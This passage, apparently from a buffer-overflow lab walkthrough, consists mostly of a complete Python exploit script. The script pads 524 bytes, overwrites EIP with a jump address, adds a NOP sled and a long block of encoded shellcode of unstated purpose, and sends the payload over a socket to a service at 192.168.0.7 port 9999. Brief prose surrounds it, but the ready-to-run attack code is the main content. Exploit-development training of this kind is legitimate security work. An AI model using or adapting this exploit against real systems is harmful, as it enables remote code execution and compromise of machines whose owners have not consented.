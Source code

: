 ![enter image description here](https://lh7-us.googleusercontent.com/docsz/AD_4nXdHFcMJ_kBHkYscb5RR3RNJwF0upI7SS9Sy-gZm_XkziOYxLrJTRhdA4am9cJiDJlnPsTbxdyI621ASghSlUwQ-rOOG4Dez375XjFwQQYuZu3DRWmXTkTswS8dvAIMhtcgV6rvW_PoeSXHkyotw-xcz2vw?key=7yZZI6nZ3Oixa1gtoznlDg)

We modified our python script to use our shell code, in addition to the address of the stack jump that was obtained

    #!/usr/bin/python3
    
    import socket
    from struct import pack
    
    offset = 524
    
    before_eip = b"A"*offset
    
    eip = pack("<I", 0x311712f3) #jmp EIP
    
    shellcode = (
        b"\xda\xd3\xbd\x26\x37\x98\x45\xd9\x74\x24\xf4\x5b\x33\xc9"
        b"\xb1\x52\x31\x6b\x17\x83\xc3\x04\x03\x4d\x24\x7a\xb0\x6d"
        b"\xa2\xf8\x3b\x8d\x33\x9d\xb2\x68\x02\x9d\xa1\xf9\x35\x2d"
        b"\xa1\xaf\xb9\xc6\xe7\x5b\x49\xaa\x2f\x6c\xfa\x01\x16\x43"
        b"\xfb\x3a\x6a\xc2\x7f\x41\xbf\x24\x41\x8a\xb2\x25\x86\xf7"
        b"\x3f\x77\x5f\x73\xed\x67\xd4\xc9\x2e\x0c\xa6\xdc\x36\xf1"
        b"\x7f\xde\x17\xa4\xf4\xb9\xb7\x47\xd8\xb1\xf1\x5f\x3d\xff"
        b"\x48\xd4\xf5\x8b\x4a\x3c\xc4\x74\xe0\x01\xe8\x86\xf8\x46"
        b"\xcf\x78\x8f\xbe\x33\x04\x88\x05\x49\xd2\x1d\x9d\xe9\x91"
        b"\x86\x79\x0b\x75\x50\x0a\x07\x32\x16\x54\x04\xc5\xfb\xef"
        b"\x30\x4e\xfa\x3f\xb1\x14\xd9\x9b\x99\xcf\x40\xba\x47\xa1"
        b"\x7d\xdc\x27\x1e\xd8\x97\xca\x4b\x51\xfa\x82\xb8\x58\x04"
        b"\x53\xd7\xeb\x77\x61\x78\x40\x1f\xc9\xf1\x4e\xd8\x2e\x28"
        b"\x36\x76\xd1\xd3\x47\x5f\x16\x87\x17\xf7\xbf\xa8\xf3\x07"
        b"\x3f\x7d\x53\x57\xef\x2e\x14\x07\x4f\x9f\xfc\x4d\x40\xc0"
        b"\x1d\x6e\x8a\x69\xb7\x95\x5d\x56\xe0\x95\x8a\x3e\xf3\x95"
        b"\xb5\x05\x7a\x73\xdf\x69\x2b\x2c\x48\x13\x76\xa6\xe9\xdc"
        b"\xac\xc3\x2a\x56\x43\x34\xe4\x9f\x2e\x26\x91\x6f\x65\x14"
        b"\x34\x6f\x53\x30\xda\xe2\x38\xc0\x95\x1e\x97\x97\xf2\xd1"
        b"\xee\x7d\xef\x48\x59\x63\xf2\x0d\xa2\x27\x29\xee\x2d\xa6"
        b"\xbc\x4a\x0a\xb8\x78\x52\x16\xec\xd4\x05\xc0\x5a\x93\xff"
        b"\xa2\x34\x4d\x53\x6d\xd0\x08\x9f\xae\xa6\x14\xca\x58\x46"
        b"\xa4\xa3\x1c\x79\x09\x24\xa9\x02\x77\xd4\x56\xd9\x33\xf4"
        b"\xb4\xcb\x49\x9d\x60\x9e\xf3\xc0\x92\x75\x37\xfd\x10\x7f"
        b"\xc8\xfa\x09\x0a\xcd\x47\x8e\xe7\xbf\xd8\x7b\x07\x13\xd8"
        b"\xa9"
    )
    
    
    payload = before_eip + eip + b"\x90"*16 + shellcode
    
    # Conexion con socket
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    s.connect(("192.168.0.7", 9999))
    s.send(payload)
    s.close()
we run our script
